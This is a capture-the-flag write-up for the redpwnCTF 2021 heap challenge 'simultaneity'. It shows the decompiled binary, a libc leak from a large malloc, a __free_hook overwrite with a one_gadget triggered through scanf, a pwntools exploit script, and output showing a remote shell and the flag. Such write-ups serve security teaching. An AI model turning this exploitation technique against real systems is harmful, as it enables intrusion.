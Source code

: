 # redpwnCTF 2021

## simultaneity

> asphyxia 
> 
> Just an instant remains before the world comes to an end...
> 
> `nc mc.ax 31547`
>
> [libc.so.6](libc.so.6) [ld-linux-x86-64.so.2](ld-linux-x86-64.so.2) [simultaneity](simultaneity)


Tags: _pwn_ _x86-64_ _heap_ _scanf_


## Summary


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All mitigations in place sans canary, perhaps a BOF challenge.


### Decompile with Ghidra

The program will allocate a user defined chuck of RAM, request an offset, and then write 8 bytes to that offset.

```c
void main(void)
{
  long in_FS_OFFSET;
  size_t local_20;
  void *local_18;
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("how big?");
  __isoc99_scanf(&%ld,&local_20);
  local_18 = malloc(local_20);
  printf("you are here: %p\n",local_18);
  puts("how far?");
  __isoc99_scanf(&%ld,&local_20);
  puts("what?");
  __isoc99_scanf(&%zu,(void *)((long)local_18 + local_20 * 8));
  _exit(0);
}
```

That `_exit(0)` at the end basically takes care of any potential stack-based buffer overflow.

The `malloc` return isn't being checked for NULL, so using a NULL pointer + the `how far?`; you have an 8-byte _write-what-where_, but where to write?  Need a leak.

`malloc`, with a large size, but not so large to fail and return a NULL pointer, will allocate a chuck that is aligned with base of libc.  This will provide a leak for the `what?` arbitrary 8-byte write.  The natural target is anything ending in `_hook`.

We get one 8-byte write (`what?`) courteous of `scanf`, and that same `scanf` needs to trigger the hook.  With only 8-bytes, _one\_gadget_ is the natural choice.

`scanf` and `printf` will call `malloc/free` with large inputs or output, e.g. with `printf` a `%65536c` format-string will trigger `malloc`, the analog for `scanf` in this challenge is to pad our `what?` with a lot of zeros.  `scanf` will then call `malloc`, process our input, and write out our hook, then call `free`; naturally we'll use `__free_hook`.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./simultaneity')

if args.REMOTE:
    p = remote('mc.ax', 31547)
    libc = ELF('./libc.so.6')
    libc.symbols['gadget'] = [0x4484f,0x448a3,0xe5456][1]
else:
    p = process(binary.path)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p.sendlineafter('big?\n','10000000')
p.recvuntil('here: ')
libc.address = int(p.recvline().strip(),16) + 10002416
log.info('libc.address: ' + hex(libc.address))
log.info('libc.sym.__free_hook: ' + hex(libc.sym.__free_hook))

p.sendlineafter('far?\n',str((libc.sym.__free_hook - libc.address + 10002416) // 8))
p.sendlineafter('what?\n',65536*'0' + str(libc.sym.gadget))
p.interactive()
```

To get the gadgets just run `one_gadget ./libc.so.6` and test each of them.

The `10002416` was just measured in gdb.

The `big?` `10000000` was lifted from another [writeup](https://faraz.faith/2019-10-27-backdoorctf-miscpwn/) xfactor sent to me.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/redpwnctf2021/pwn/simultaneity/simultaneity'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to mc.ax on port 31547: Done
[*] '/pwd/datajerk/redpwnctf2021/pwn/simultaneity/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fe75f3dc000
[*] libc.sym.__free_hook: 0x7fe75f5998e8
[*] Switching to interactive mode
$ id
uid=1000 gid=1000 groups=1000
$ cat flag.txt
flag{sc4nf_i3_4_h34p_ch4l13ng3_TKRs8b1DRlN1hoLJ}
```
